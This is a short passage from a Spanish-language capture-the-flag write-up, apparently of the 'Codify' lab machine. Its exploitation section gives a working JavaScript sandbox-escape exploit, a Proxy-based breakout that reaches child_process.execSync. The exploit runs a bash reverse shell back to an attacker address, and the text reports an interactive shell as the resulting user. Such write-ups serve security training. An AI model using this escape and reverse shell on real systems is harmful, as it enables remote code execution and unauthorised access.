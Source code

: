 <div style="text-align: center;">
		<img src="/assets/images/Codify/RCE.jpg" alt="editorial" width="1000" oncontextmenu="return false;" />
</div>

----

# Explotación

Modificamos el código anterior para ejecutar un one-liner de Bash, permitiendo estáblecer una reverse shell

```bash
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.34/4444 0>&1"');
}
```

Al ejecutar el código, obtenemos una shell interactiva como el usuario **svg**.

<div style="text-align: center;">
		<img src="/assets/images/Codify/svcShell.jpg" alt="editorial" width="1000" oncontextmenu="return false;" />
</div>
